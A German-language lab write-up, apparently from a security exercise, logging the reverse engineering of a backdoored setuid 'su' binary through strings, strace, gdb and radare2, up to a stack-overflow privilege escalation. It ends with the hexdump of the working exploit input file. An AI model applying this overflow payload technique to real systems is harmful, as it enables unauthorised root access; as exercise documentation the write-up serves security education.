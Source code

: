 ## Dokumentation des Vorgehens zur Lösung der Aufgabe
### Allgemeine Informationen sammeln

1. Die gegebene IP anpingen -> Server ist erreichbar
1. HTTP-Request -> es läuft kein HTTP-Server`
1. `nmap` anwenden: Port 22 (ssh) ist offen
1. Login ist möglich
1. `uname -a`: Allgemeine Informationen zum System: Linux arch 4.5.4-1-ARCH #1 SMP PREEMPT x86_64 GNU/Linux
1. Logs versucht einzusehen: No Permissions
1. Installierte Programme einsehen und analysieren: __30 Minuten__ 
1. Berechtigungen anschauen: Dabei fiel auf, dass das Änderungsdatum der `su`-Binary von den anderen abweicht: Zufall
1. Vermutung: Rootkit in der Binary.
1. Einlesen zum Thema Rootkits: [^1][^2][^3]
1. `file` angewendet: su: setuid ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a6fdad0603136d4b68ee933c322f7908bbbb775e, stripped
1. `ldd` angewendet: keine Auffälligkeit
1. `su` ausgeführt: keine Auffälligkeit
1. Einlesen zum Thema Stackoverflow: [^4]


### Genauere Analyse
1. Fuzzing auf `su` angewendet: ab einer gewissen Länge -> bash: command not found
 1. Gleiches Verhalten auf Host-System: Ansatz verworfen
1. `Strings` angewendet:   
    Auffälligkeit:   
    `5f23 %#08lx` => Einbeziehung des ELF-Adressraumes: 0x405f23: __1.3 Stunden__
1. `su --help` ausgeführt: Auffälligkeit -> es gibt ein `-v --verbose` Flag. Dieses Flag wird in der manpage nicht erwähnt.
1. `su -v` ausgeführt: keine Auffälligkeit
1. `su -v 4` ausgeführt: keine Auffälligkeit: user 4 does not exist
1. `strace` ausgeführt: Geht nur bis zur Eingabe des Passworts
1. `strace` auf su prozess attachen: No permissions
1. Den `strace` output mit dem des Host-Systems vergleichen __1.7 Stunden__
1. Mit GDB debuggen: Keine neuen Informationen: __1 Stunde__
1. Mit Disassembler statisch analysiert (radare2 v.0.10.2)
    1. Main-Wrapper auflösen um die richtige Main-Methode zu finden
    1. Die `richtige` Main Funktion im Assembler analysiert: __6.5 Stunden__
1. `getopt`-Funktion suchen -> 0x4041e6  
    Auffälligkeit: `getopt`-Parameter: `v` erlaubt einen optionalen Parameter
1. `su -vx` ausgeführt: Es wird eine Adresse ausgegeben -> 0x7fffffffeaf0
1. ASLR (Address Space Layout Randomization) ist ausgeschaltet:  
    ```
    $ cat /proc/sys/kernel/randomize_va_space
    0
    ```  
    Auffälliger String könnte die Adresse einer wichtigen Stelle sein.
1. Original `su`-Quelltext angeschaut: Switch-Case über die Parameter __3 Stunden__
1. Mittels Disassembler die Stelle suchen, an der der Adressen-String benutzt wird:   
    0x40416d -> Parameter der `printf`-Funktion an 0x404177.  
    Stellt den '-v'-Fall des Switch-Cases dar.
1. `-v`-Case: nach der Ausgabe  wird eine Funktion aufgerufen:  
    Aufruf: 0x4041e6  
    Funktion: 0x40c2e1
1. Diese Funktion macht File-Handling-stuff.
1. Zunächst vermutet, es handelt sich nicht mehr um den `-v`-Case.
1. `su -vDatei.txt` ausgeführt: Segmentation fault: __2.0 Stunden__
1. Herausfinden, wie groß die Datei mindestens sein muss, um einen Segmentation fault auszulösen:   
    137 Zeichen; vielleicht sind aber noch weitere Bytes durch Variablen belegt, bevor Base-Pointer und Instruction-Pointer kommen:  
    144 Zeichen bis Basepointer: __11.5 Stunden__
1. Mittels der Analyse im Disassembler eine Stelle suchen, die ausgenutzt werden kann: execvp gefunden: 0x404777: __1 Stunde__
1. Die Adresse des Exec-Befehls an Datei.txt anhängen: Keine Veränderung.
1. Analyse der Adress-Ausgabe: Der Basepointer wird ausgegeben.
1. Die Ausgabe von `-v` ist der Basepointer: Dieser muss gesichert werden.
1. Basepointer vor der `execvp`-Adresse in die Datei.txt einfügen. __3 Stunden__
1. `su -vDatei.txt` ausführen: keine Änderung
1. `su -vDatei.txt ls` ausführen: `ls` wird mit den normalen User-Rechten ausgeführt. 
1. Weitersuchen im Assembler: Funktion oberhalb des Exec-Aufrufs genauer ansehen:  
    Benutzt: 0x404735  
    Funktion: 0x402dd9: 
    __4 Stunden__
1. Die Funktion ruft `setuid` und `setgid` auf (jeweils 0 als Argument):  
    Ersetzen der Exec-Adresse in der Datei mit der Adresse des Funktionsaufrufs (s.o.)
1. `su -vDatei.txt ls` ausführen: `ls`: wird als root ausgeführt __30 Minuten__ 

### Hexdump der Datei

```
$ hexdump --no-squeezing --canonical Datei.txt
00000000  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000010  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000020  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000030  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000040  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000050  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000060  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000070  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000080  78 78 78 78 78 78 78 78  78 78 78 78 78 78 78 78  |xxxxxxxxxxxxxxxx|
00000090  10 eb ff ff ff 7f 00 00  35 47 40                 |........5G@|
0000009b
```

[^1]: de.wikipedia.org/wiki/Rootkit
[^2]: en.wikipedia.org/wiki/Rootkit
[^3]: www.sans.org/reading-room/whitepapers/linux/linux-rootkits-beginners-prevention-removal-901
[^4]: www-scf.usc.edu/~csci530l/downloads/stackoverflow_en.pdf
